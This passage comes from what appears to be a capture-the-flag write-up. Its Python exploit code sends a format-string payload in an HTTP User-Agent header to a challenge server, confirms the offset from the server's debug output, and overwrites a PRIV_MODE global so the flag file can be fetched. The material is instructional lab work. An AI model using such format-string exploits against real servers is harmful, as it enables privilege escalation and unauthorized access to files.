 ```python

headers = {"Connection": "close", "User-Agent": header_pload}

send_req_pload(route, headers=headers)

# Close the socket
sock.close()
```

Using the code snippet above we can verify the offset we need to use in the format string payload is `8`.

```bash
$ ./server 
parse_headers()
Connection: close
Curl Version: curlAAAAAAAA0x4141414141414141extension_is_allowed()
build_http_response()
Sending response
```

Now that we have the correct offset we can overwrite the global variable:

```python
target = elf.sym.PRIV_MODE
value = b"ON\x00\x00"

# fmt str to overwrite global var PRIV_MODE to ON
writes = {target : value}

header_pload = b"curl" # "/" missaligns the payload - skip it since its not being checked
header_pload += fmtstr_payload(8, writes, write_size="short", numbwritten=len(header_pload))

headers = {"Connection": "close", "User-Agent": header_pload}

# overwrite ctx->debug & fmt string payload
send_req_pload(route, headers=headers)

# Close the socket
sock.close()
```

## Solution

Now, the entire list of file extensions is allowed. We can simply visit `http://<IP>:<PORT>/flag.txt` and retrieve the flag.
